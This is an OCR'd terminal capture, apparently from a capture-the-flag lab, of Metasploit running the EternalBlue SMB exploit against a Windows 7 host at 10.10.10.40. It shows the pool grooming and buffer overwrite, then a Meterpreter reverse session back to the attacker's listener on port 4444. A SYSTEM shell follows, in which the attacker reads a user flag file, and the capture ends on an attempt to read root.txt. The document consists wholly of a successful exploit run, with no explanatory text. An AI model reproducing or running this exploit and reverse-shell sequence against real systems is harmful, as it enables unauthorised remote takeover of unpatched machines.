 ````
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
whoami
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201798 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.10.10.40:49158) at 2024-10-06 18:49:38 +0200
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > shell
Process 244 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type c:\Users\haris\Desktop\flag.txt
type c:\Users\haris\Desktop\flag.txt
The system cannot find the file specified.

C:\Windows\system32>dir c:\Users\haris\Desktop
dir c:\Users\haris\Desktop
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of c:\Users\haris\Desktop

24/12/2017  03:23    <DIR>          .
24/12/2017  03:23    <DIR>          ..
06/10/2024  17:15                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,691,121,152 bytes free

C:\Windows\system32>type c:\Users\haris\Desktop\user.txt
type c:\Users\haris\Desktop\user.txt
f3694324e928d3e8a715cc76ba2c6f5c

C:\Windows\system32>type c:\Users\Administrator\Desktop\root.txt
````